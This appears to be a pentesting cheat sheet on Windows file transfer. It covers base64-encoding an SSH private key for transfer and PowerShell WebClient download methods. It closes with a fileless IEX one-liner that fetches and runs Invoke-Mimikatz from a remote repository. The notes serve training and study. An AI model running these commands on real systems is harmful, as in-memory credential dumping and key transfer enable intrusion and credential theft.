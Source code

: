 # Windows File Transfer Methods
## PowerShell Base64 Encode & Decode
#### Check SSH Key MD5 Hash
```shell
md5sum id_rsa
```
`4e301756a07ded0a2dd6953abf015278  id_rsa`
#### Encode SSH Key to Base64
```shell
cat id_rsa |base64 -w 0;echo
```
#### Windows Powershell
```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<HASH>"))
```
#### Confirming the MD5 Hashes Match
```powershell
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```
## PowerShell Web Downloads

| Method                 | Description                                                           |
|------------------------|-----------------------------------------------------------------------|
| `OpenRead`             | Returns the data from a resource as a Stream.                         |
| `OpenReadAsync`        | Returns the data from a resource without blocking the calling thread. |
| `DownloadData`         | Downloads data from a resource and returns a Byte array.              |
| `DownloadDataAsync`    | Downloads data from a resource and returns a Byte array without blocking the calling thread. |
| `DownloadFile`         | Downloads data from a resource to a local file.                       |
| `DownloadFileAsync`    | Downloads data from a resource to a local file without blocking the calling thread. |
| `DownloadString`       | Downloads a String from a resource and returns a String.              |
| `DownloadStringAsync`  | Downloads a String from a resource without blocking the calling thread. |
### PowerShell DownloadFile Method
#### File Download
```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

```powershell
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```
#### PowerShell DownloadString - Fileless Method
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
